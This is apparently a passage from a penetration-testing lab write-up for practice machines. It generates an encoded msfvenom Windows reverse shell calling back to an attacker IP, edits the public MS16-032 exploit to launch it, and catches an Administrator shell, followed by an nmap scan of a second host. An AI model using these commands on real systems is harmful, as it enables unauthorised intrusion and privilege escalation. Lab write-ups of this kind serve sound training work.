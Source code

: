 In the attacker machine, a reverse shell was generated with:

```texinfo
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp lport=443 lhost=10.10.14.4 exitfunc=thread -e x86/shikata_ga_nai -f exe -o reverse.exe
```

Afterwards, in the original exploit, the lines **189** and **333** with the content:

```powershell
0x00000002, "C:\Windows\System32\cmd.exe", "",
0x00000002, "C:\Windows\System32\cmd.exe", "",
```

Were exchanged for the next ones containing a mention to the reverse shell just created:

```powershell
0x00000002, "C:\Users\kostas\Desktop\reverse.exe", "",
0x00000002, "C:\Users\kostas\Desktop\reverse.exe", "",
```

The public exploit utilized, can be found in the following link:

```texinfo
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1
```

Modified that, a listener was setup on the attacker machine on port 443 and the exploit was executed gaining with a reverse shell with Administrators' privileges.

**Proof Screenshot Here:**

![Reverse shell and root.txt](../optimum/screenshots/proof-pe.png)

**root.txt Contents:** 

```texinfo
51ed****************************
```

### System IP: 10.10.10.11

#### Service Enumeration

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.11       | **TCP**: 135, 8500, 49154\
**UDP**: N/A

**Nmap Scan Results:**

```texinfo
kali@kali:~/simulation/arctic$ nmap -Pn -sC -sV -O -p- -oA nmap/full 10.10.10.11
----- snipped -----
PORT   STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
----- snipped -----
```

